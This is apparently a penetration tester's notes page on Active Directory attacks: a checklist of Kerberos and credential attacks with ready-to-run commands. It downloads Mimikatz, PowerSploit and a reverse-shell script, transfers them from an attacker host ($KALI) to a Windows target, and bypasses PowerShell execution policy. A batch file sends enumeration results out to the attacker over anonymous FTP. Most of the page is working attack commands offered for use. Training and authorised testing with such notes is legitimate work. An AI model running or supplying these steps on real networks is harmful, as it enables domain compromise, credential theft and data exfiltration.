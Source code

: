 Resources:
Pass the Hash
Overpass the Hash
Pass the Ticket
Kerberoasting
Password Spray

CHECK OUT:

```
https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/  
```

Cryptography mimikatz module:  
```
https://hackmag.com/security/lateral-movement/ 
```

```
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
```

# Attack Privilege Requirements

- [ ]  Kerbrute Enumeration — No domain access required
- [ ]   Pass the Ticket — Access as a user to the domain required
- [ ]   Kerberoasting — Access as any user required
- [ ]   AS-REP Roasting — Access as any user required
- [ ]   Golden Ticket — Full domain compromise (Domain Admin) required
- [ ]   Silver Ticket — Service hash required
- [ ]   Skeleton Key — Full domain compromise (Domain Admin) required

```bash - kali
wget https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 && wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 && wget https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 && wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 && wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1 && wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py && wget https://github.com/davehardy20/sysinternals/blob/master/PsExec64.exe?raw=true
```

### Enable RDP
Try enabling RDP with share access 
[[Port 3389 - RDP ~#Enabling RDP]]
If successful, skip to [[#Domain Enumeration]]


#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.bat
```

```powershell - windows
@echo off

echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt

echo put adPEAS.txt >> upload.txt
echo quit >> upload.txt

ftp -s:upload.txt $KALI

del upload.txt
```

#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==
```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri '$KALI/PowerView.ps1' -OutFile PowerView.ps1; Invoke-WebRequest -Uri '$KALI/SharpHound.ps1' -OutFile SharpHound.ps1; Invoke-WebRequest -Uri '$KALI/GetUserSPNs.ps1' -OutFile GetUserSPNs.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Mimikatz.ps1' -OutFile Invoke-Mimikatz.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Kerberoast.ps1' -OutFile Invoke-Kerberoast.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-PowerShellTcpOneLine.ps1' -OutFile Invoke-PowerShellTcpOneLine.ps1; Invoke-WebRequest -Uri '$KALI/PsExec64.exe' -OutFile PsExec64.exe; Invoke-WebRequest -Uri '$KALI/AutoUpload.bat' -OutFile AutoUpload.bat; Invoke-WebRequest -Uri '$KALI/adPEAS.ps1' -OutFile adPEAS.ps1
```

#### Bypass execution policy
```command prompt - windows
powershell -ep bypass
```

#### Start FTP server and upload results

[[Python#FTP Server]]

```powershell - windows
cmd /c "AutoUpload.bat"
```


Export Domain variables from nmapSVC : RE-DO EVERYTIME YOU CHANGE HOSTS!
```bash - kali
export TARGET_NAME=$(cat nmapSVC | grep Target_Name | cut -d : -f 2) && export NETBIOS_DOMAIN_NAME=$(cat nmapSVC | grep NetBIOS_Domain_Name | cut -d : -f 2) && export NETBIOS_COMPUTER_NAME=$(cat nmapSVC | grep NetBIOS_Computer_Name | cut -d : -f 2) && export DNS_DOMAIN_NAME=$(cat nmapSVC | grep DNS_Domain_Name | cut -d : -f 2) && export DNS_COMPUTER_NAME=$(cat nmapSVC | grep DNS_Computer_Name | cut -d : -f 2) && export DNS_TREE_NAME=$(cat nmapSVC | grep DNS_Tree_Name | cut -d : -f 2)
```

---

#### Domain Enumeration
1. Identify Domain Controller!
Look for ports 389 and 636 being open.
From nmap scan, we should find Domain: details on these ports.

From nmap scans:
|   Target_Name: xxxxx
|   NetBIOS_Domain_Name: xxxxx
|   NetBIOS_Computer_Name: xxxxx
|   DNS_Domain_Name: xxxxx
|   DNS_Computer_Name: xxxxx
|   DNS_Tree_Name: xxxxx

[[1._Enumeration#5 Domain Enumeration winapsearch]]
[[1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]

Found users? 
```bash - kali
git clone https://github.com/captain-noob/username-wordlist-generator && cd username-list-generator
```
make list of users into user.txt file

```bash - kali
python3 userlistcreator.py
```

2. Compromise a host on the domain, get system.
[[2._PsExec.exe (admin to system!)]]

Run adPEAS  https://github.com/61106960/adPEAS
```powershell - target
. .\adPEAS.ps1; Invoke-adPEAS  > adPEAS.txt
```

Try to find users and groups with PowerView.ps1
[[6._PowerShell AD Enumeration]]

Do you have any users / passwords / hashes at this point?
- **YES!  Try the following:**
[[1._Enumeration#5 Domain Enumeration winapsearch]]
[[1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]
Password Spraying
[[2._CrackMapExec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP

- **NO! Try the following:**
[[__.Mimikatz.ps1]]
[[__.Mimikatz.exe]]

3. Look for SPN's
```powershell - target
.\GetUserSPNs.ps1
```
[[4._Service Account Attacks]]

Now that we have password, try:
Password Spraying
[[2._CrackMapExec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP


